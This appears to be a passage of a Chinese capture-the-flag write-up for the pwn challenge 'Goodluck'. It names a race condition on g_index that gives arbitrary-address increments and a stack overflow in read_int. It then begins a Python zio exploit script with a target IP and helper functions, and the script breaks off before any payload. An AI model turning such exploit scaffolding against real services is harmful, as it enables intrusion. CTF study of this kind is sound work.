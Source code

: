 **<br>**

**Pwn-Goodluck**

****

条件竞争漏洞，g_index的值可以在主线程中修改，然后在第2个子线程中能实现任意地址+1操作。

read_int如果参数为0，可以栈溢出。

脚本：

```
from threading import Thread
# from uploadflag import *
from zio import *
 
target = ('119.254.101.197', 10000)
target = './pwn2'
 
 
def add1(io,type,name,number,some):
      io.read_until("choice:")
      io.writeline('1')
      io.read_until("flower")
      io.writeline(str(type))
      io.read_until('name:')
      io.writeline(name)
      io.read_until('number:')
      io.writeline(str(number))
      io.read_until('again:')
      io.writeline(some)
 
def add2(io, type, name, much, price,   some):
      io.read_until("choice:")
      io.writeline('1')
      io.read_until("flower")
      io.writeline(str(type))
      io.read_until('name:')
      io.writeline(name)
      io.read_until('want:')
      io.writeline(much)
      io.read_until('table:')
      io.writeline(price)
      io.read_until('something:')
      io.writeline(some)
 
def show(io,index):
      io.writeline('4')
      io.read_until('show')
      io.writeline(str(index))
 
def delete(io,index):
      io.writeline('2')
      io.read_until(cs7)
      io.writeline(str(index))
 
def edit(io,index,data):
      io.writeline('3')
      io.read_until('edit:')
      io.writeline(str(index))
      io.read_until('something')
      io.writeline(data)
 
def interact(io):
      def run_recv():
```